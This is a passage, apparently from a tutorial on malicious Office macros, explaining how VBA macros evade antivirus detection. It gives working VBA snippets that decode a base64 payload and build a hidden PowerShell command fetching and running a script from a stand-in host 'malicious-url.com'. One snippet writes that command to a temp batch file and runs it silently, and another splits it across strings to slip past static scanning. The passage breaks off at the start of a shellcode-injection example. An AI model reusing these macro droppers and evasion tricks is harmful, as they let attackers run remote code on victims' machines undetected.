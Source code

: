       ' Decode the payload during execution
      Dim decodedPayload As String
      decodedPayload = DecodeBase64(encodedPayload)
      ```
      In this example, `encodedPayload` holds an encoded command (e.g., a PowerShell command), and `DecodeBase64` is a function to convert it back to the original command. This encoding makes it harder for antivirus to detect malicious code in the VBA file.

2. **Dynamic Code Execution**:
    - The VBA macro doesn’t store or execute the malicious payload directly but rather creates it dynamically during runtime. It could generate script files (e.g., `.bat` or `.ps1`) or use inline PowerShell commands.
    - **Example**:
      ```vba
      Sub ExecutePayload()
          ' Generate a PowerShell command dynamically
          Dim payload As String
          payload = "powershell.exe -nop -w hidden -c ""iex(New-Object Net.WebClient).DownloadString('http://malicious-url.com')"""
          
          ' Write the payload into a temporary .bat file and execute it
          Dim tempFile As String
          tempFile = Environ("TEMP") & "\tempfile.bat"
          CreateObject("Scripting.FileSystemObject").CreateTextFile(tempFile).Write payload
          
          ' Execute the .bat file
          Shell tempFile, vbHide
      End Sub
      ```
      In this example, the macro dynamically generates a PowerShell command that downloads and runs a script from the attacker's server. The command is written to a `.bat` file, which is executed silently using the `Shell` function.

3. **Obfuscating File Operations**:
    - Many times, attackers will split the malicious payload across multiple variables or even break it down into tiny character blocks that are concatenated at runtime. This reduces the likelihood of detection during static analysis.
    - **Example**:
      ```vba
      ' Splitting the command across variables
      Dim cmdPart1 As String
      Dim cmdPart2 As String
      cmdPart1 = "powershell.exe -nop"
      cmdPart2 = " -w hidden -c ""iex(New-Object Net.WebClient).DownloadString('http://malicious-url.com')"""
      
      ' Combine and execute the command
      Dim fullCmd As String
      fullCmd = cmdPart1 & cmdPart2
      Shell fullCmd, vbHide
      ```

4. **Shellcode Injection**:
    - Some advanced attackers use VBA macros to perform in-memory execution by directly injecting shellcode into the process memory. This avoids writing any malicious files to disk, making detection even harder.
    - **Example** (simplified shellcode injection):
      ```vba
      Sub InjectShellcode()
          Dim shellcode As String
          shellcode = "fc e8 89 00 00 00 60 89 e5 31 d2..."
